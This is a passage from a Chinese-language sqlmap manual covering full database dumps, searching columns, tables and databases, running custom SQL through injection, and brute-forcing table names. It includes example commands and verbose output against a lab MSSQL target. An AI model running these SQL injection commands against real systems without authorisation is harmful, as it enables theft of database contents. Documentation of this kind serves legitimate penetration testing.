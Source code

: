 	使用--dump-all参数获取所有数据库表的内容，可同时加上--exclude-sysdbs只获取用户数据库的表，需要注意在Microsoft SQL Server中master数据库没有考虑成为一个系统数据库，因为有的管理员会把他当初用户数据库一样来使用它。

#### 搜索字段，表，数据库

	参数：--search,-C,-T,-D

--search可以用来寻找特定的数据库名，所有数据库中的特定表名，所有数据库表中的特定字段。

可以在一下三种情况下使用：

-C后跟着用逗号分割的列名，将会在所有数据库表中搜索指定的列名。
-T后跟着用逗号分割的表名，将会在所有数据库中搜索指定的表名
-D后跟着用逗号分割的库名，将会在所有数据库中搜索指定的库名。

#### 运行自定义的SQL语句

	参数：--sql-query,--sql-shell

sqlmap会自动检测确定使用哪种SQL注入技术，如何插入检索语句。

如果是SELECT查询语句，sqlap将会输出结果。如果是通过SQL注入执行其他语句，需要测试是否支持多语句执行SQL语句。

列举一个Mircrosoft SQL Server 2000的例子：

	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1
	
	[...]
	[hh:mm:14] [INFO] fetching SQL SELECT query output: 'SELECT 'foo''
	[hh:mm:14] [INFO] retrieved: foo
	SELECT 'foo':    'foo'
	
	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo', 'bar'" -v 2
	
	[...]
	[hh:mm:50] [INFO] fetching SQL SELECT query output: 'SELECT 'foo', 'bar''
	[hh:mm:50] [INFO] the SQL query provided has more than a field. sqlmap will now unpack it into 
	distinct queries to be able to retrieve the output even if we are going blind
	[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS VARCHAR(8000)), 
	(CHAR(32)))
	[hh:mm:50] [INFO] retrieved: foo
	[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
	[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VARCHAR(8000)), 
	(CHAR(32)))
	[hh:mm:50] [INFO] retrieved: bar
	[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
	SELECT 'foo', 'bar':    'foo, bar'


### 2.8爆破

#### 暴力破解表名

	参数：--common-tables

当使用--tables无法获取到数据库的表时，可以使用此参数。
